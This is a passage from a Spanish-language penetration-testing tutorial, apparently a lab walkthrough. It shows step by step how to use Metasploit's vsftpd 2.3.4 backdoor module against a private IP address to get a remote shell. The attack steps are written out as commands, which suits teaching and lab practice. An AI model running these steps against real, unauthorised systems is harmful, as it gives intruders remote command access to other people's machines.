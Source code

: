 
#### ✅ Paso 2: Buscar el exploit

```bash
search vsftpd
```

✅ Resultado:

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ Paso 3: Usar el módulo

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### ✅ Paso 4: Ver opciones

```bash
show options
```

Verás que debes configurar `RHOSTS` (IP del objetivo).

---

#### ✅ Paso 5: Configurar la IP

```bash
set RHOSTS 192.168.1.10
```

---

#### ✅ Paso 6: Ejecutar el exploit

```bash
run
```

---

#### ✅ Resultado esperado:

Si el exploit es exitoso, tendrás acceso como usuario remoto (shell).
Podrás ejecutar comandos como:

```bash
whoami
ls
```

---
